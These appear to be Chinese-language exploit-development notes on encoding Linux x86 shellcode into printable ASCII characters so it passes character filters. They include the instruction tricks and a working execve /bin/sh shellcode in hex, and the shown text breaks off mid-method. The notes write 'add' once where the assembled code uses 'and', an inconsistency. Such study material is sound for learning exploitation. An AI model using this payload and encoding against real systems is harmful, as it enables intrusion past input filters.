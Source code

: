 简介 : 
```
可打印字符
```
经验 : 
```
(发现一个经验 , 如果需要反复对内存进行 malloc/free 操作的时候 , malloc后要 memset(pointer, 0 , size))
参考文章 : http://blog.csdn.net/baijd_ss/article/details/6741855
```
环境 : 
```
Linux x86
```
分析 : 
```
可打印的指令 : 
	and eax, [NUMBER]		
	sub eax, [NUMBER]
	push eax
	pop eax
	push esp
	pop esp
```
方法 : 
```
1. 使用 and 来清空 eax 
2. 在 eax 清空后 , 可以使用 sub 指令来将 eax 设置为任意值 (缠绕的思想)
3. 通过 (push eax , pop esp) 以及 (push esp , pop eax) 可以进行 esp 和 eax 之间的数据转移
4. 这样就可以首先将已经写好的一段 shellcode 使用第 1 步和第 2 步进行转换
5. 转换的结果当然都是可打印字符 , 这样编码完成后 , 我们就可以使用第 2 步来将真正的shellcode压入栈
6. 调整栈指针 , 让 shellcode 执行
```
可打印字符的特点 : 
```
ASCII 的范围是 32 - 127
也就是 : 
0010 0000 - 0111 1111
我们如何来使用只有 ASCII 的指令将 eax 清空呢 ? 
01010101 & 10101010 = 0
[I] & [0] = 0 (0x49, 0x30)
这样就可以达到清空的效果 , 当然这个也可以随意调整 , 只要能保证按位与之后为 0 即可
add eax, 49494949H
add eax, 30303030H
汇编之后的机器码为 : 
8048065:	25 49 49 49 49			and    $0x49494949,%eax
804806a:	25 30 30 30 30			and    $0x30303030,%eax
可以看到都是可打印字符 , 而且已经绕过了诸如 : * / \ 这样的特殊字符
```
一段正常的shellcode : 
```
\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\x99\xcd\x80
```
我们现在要使用 sub 指令来将 eax 一个一个调整为 shellcode 中的数据
然后再将其压到栈上
首先看第一个 : 
\x31\xc9\x51\x68
为了提高效率我们这里可能需要写一个脚本来进行运算


